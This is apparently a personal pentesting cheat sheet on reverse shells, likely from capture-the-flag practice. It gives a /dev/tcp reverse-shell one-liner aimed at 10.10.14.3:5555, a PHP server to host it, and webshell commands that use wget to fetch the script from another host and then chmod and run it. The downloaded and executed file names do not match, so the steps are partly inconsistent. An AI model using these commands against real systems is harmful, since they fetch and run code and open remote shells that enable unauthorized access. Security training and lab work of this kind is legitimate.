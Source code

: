 # Reverse Shells  


## Reverse Shell Not Working & You Have a WebShell  

* We can do the following to, maybe, get that working   

  <blockquote>
  Getting a reverse shell using the above command didn't work. Let's create a reverse shell, start an
  HTTP server locally and download it to the remote machine
  </blockquote>

  * Like this code --> `echo "0<&196;exec 196<>/dev/tcp/10.10.14.3/5555; sh <&196 >&196 2>&196" > shell
php -S 0.0.0.0:8000`.    

* Then from the webshell I enter the following   
  ```
  wget http://10.10.14.8:8000/revshell.sh -O /tmp/revshell.sh
  chmod +x /tmp/shell
  bash /tmp/shell
  ```


## Reverse Shells 